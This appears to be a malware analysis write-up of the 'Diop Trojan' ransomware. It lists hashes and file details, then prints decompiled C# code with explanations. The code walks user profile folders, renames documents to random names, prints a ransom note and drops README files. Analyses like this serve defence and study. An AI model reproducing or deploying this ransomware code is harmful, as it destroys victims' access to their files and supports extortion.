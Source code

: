# Diop Trojan (Ransomware)

* [Version at ANY.RUN](https://app.any.run/tasks/bdcfa230-f293-4b69-99f0-115d0d67a82b/)
* [VT Link](https://www.virustotal.com/gui/file/424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d)

## File Information

- MD5: 06e63f2f7f64cbc08ac883f4f9122aa7
- SHA-1: 5dc8db5189d1b33b1e28dc642c238f45b6deec1a
- SHA-256: 424f2f18cf3e601760f3ae6e2979503a8d3993024e342b014053835c6590247d
- File type: Win32 EXE
- Magic label: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
- File size: 7.2 kB (7168 bytes)

## File Encryption Program and Custom README File Creation

```
private static void Main(string[] args)
{
    string str = "C:\\Users\\";
    string userName = Environment.UserName;
    string[] array = new string[]
    {
        str + userName + "\\Desktop",
        str + userName + "\\Links",
        str + userName + "\\Contacts",
        str + userName + "\\Desktop",
        str + userName + "\\Documents",
        str + userName + "\\Downloads",
        str + userName + "\\Pictures",
        str + userName + "\\Music",
        str + userName + "\\OneDrive",
        str + userName + "\\Saved Games",
        str + userName + "\\Favorites",
        str + userName + "\\Searches",
        str + userName + "\\Videos"
    };
    string[] fileExtensions = new string[]
    {
        ".txt",
        ".docx",
        ".pdf"
    };
    foreach (string directory in array)
    {
        CustomRansomware.EncryptFilesInDirectory(directory, fileExtensions);
        CustomRansomware.CreateReadmeFiles(directory);
    }
    Console.WriteLine("Files encrypted successfully!");
}

```

This code iterates through various directories within the user's profile, including Desktop, Links, Contacts, Documents, Downloads, Pictures, Music, OneDrive, Saved Games, Favorites, Searches, and Videos. It encrypts files with extensions such as .txt, .docx, and .pdf using a custom ransomware approach. Additionally, it creates custom README files in each directory. Upon completion, the program displays a message confirming successful encryption.

## File Encryption in Directory

```
private static void EncryptFilesInDirectory(string directory, string[] fileExtensions)
{
    string[] files = Directory.GetFiles(directory, "*.*", SearchOption.AllDirectories);
    string[] array = files;
    for (int i = 0; i < array.Length; i++)
    {
        string file = array[i];
        bool flag = Array.Exists<string>(fileExtensions, (string ext) => ext.Equals(Path.GetExtension(file), StringComparison.InvariantCultureIgnoreCase));
        if (flag)
        {
            CustomRansomware.EncryptFile(file);
        }
    }
}

```

The code defines a method named `EncryptFilesInDirectory`, which takes a directory and an array of file extensions as parameters. Utilizing the `Directory` class, it retrieves a list of files within the specified directory, including all subdirectories. For each file, it checks if its extension matches any of the extensions specified in the array. If so, it invokes the `EncryptFile` method from the `CustomRansomware` class to encrypt the file.

## File Encryption Process

```
private static void EncryptFile(string filePath)
{
    using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider(3072))
    {
        string path = Path.ChangeExtension(Path.GetRandomFileName(), "e4aibjtrguqlyaow");
        File.Move(filePath, Path.Combine(Path.GetDirectoryName(filePath), path));
        byte[] inArray = rsacryptoServiceProvider.ExportCspBlob(false);
        string str = Convert.ToBase64String(inArray);
        Console.WriteLine("File encrypted: " + filePath);
        Console.WriteLine("Ransomware note: Your files have been encrypted. Contact us to get the decryption key.");
        Console.WriteLine("Public key: " + str);
    }
}
```

This method, `EncryptFile`, facilitates the encryption process for a specified file. It utilizes the `RSACryptoServiceProvider` class to generate a public/private key pair with a key size of 3072 bits. The file is then moved to a new location with a random filename and a custom extension. It prints a message indicating that the file has been encrypted along with a ransomware note prompting the user to contact for decryption key retrieval. Additionally, it displays the public key generated for encryption purposes.

## README File Creation

```
private static void CreateReadmeFiles(string directory)
{
    for (int i = 1; i <= 10; i++)
    {
        string text = Path.Combine(directory, string.Format("README{0}.txt", i));
        File.WriteAllText(text, "КУКУ");
        Console.WriteLine("Created README file: " + text);
    }
}
```

The `CreateReadmeFiles` method generates README files within a specified directory. It iterates from 1 to 10, creating a new README file with the format "README{number}.txt". Each file contains the text "КУКУ". Upon successful creation, it prints a message indicating the creation of each README file along with its path.